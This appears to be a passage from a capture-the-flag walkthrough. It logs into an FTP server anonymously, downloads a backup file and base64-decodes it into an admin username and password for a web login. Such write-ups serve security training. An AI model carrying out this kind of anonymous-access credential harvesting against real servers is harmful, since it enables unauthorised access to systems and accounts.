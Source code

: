 We have 3 ports 21, 22 and 80
- 21 has the vsftpd 3.0.3 with the anonymous login
- 80 has the webserver

### FTP

Let's login to ftp using anonymous login 

```bash
┌──(kali㉿kali)-[~]
└─$ ftp 159.65.224.214                                                              148 ⨯ 3 ⚙
Connected to 159.65.224.214.
220 (vsFTPd 3.0.3)
Name (159.65.224.214:kali): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (159,65,224,214,46,180).
150 Here comes the directory listing.
-rw-r--r--    1 0        0              25 Apr 05 23:05 backup
226 Directory send OK.
ftp> cd backup
550 Failed to change directory.
ftp> ls
227 Entering Passive Mode (159,65,224,214,149,131).
150 Here comes the directory listing.
-rw-r--r--    1 0        0              25 Apr 05 23:05 backup
226 Directory send OK.
ftp> ls -la
227 Entering Passive Mode (159,65,224,214,245,57).
150 Here comes the directory listing.
drwxr-xr-x    2 0        120          4096 Apr 05 23:05 .
drwxr-xr-x    2 0        120          4096 Apr 05 23:05 ..
-rw-r--r--    1 0        0              25 Apr 05 23:05 backup
226 Directory send OK.
ftp> mget backup
mget backup? y
227 Entering Passive Mode (159,65,224,214,245,22).
150 Opening BINARY mode data connection for backup (25 bytes).
226 Transfer complete.
25 bytes received in 0.00 secs (239.3536 kB/s)
```
Let's read the backup file

```bash
┌──(kali㉿kali)-[~]
└─$ file backup                                                                         
backup: ASCII text

┌──(kali㉿kali)-[~]
└─$ cat backup                                                                          
YWRtaW46bW9yb2NjbzIwMjI=

┌──(kali㉿kali)-[~]
└─$ echo "YWRtaW46bW9yb2NjbzIwMjI=" | base64 -d                                        
admin:morocco2022                                                
```
We found a login credentials maybe we can use it with webserver
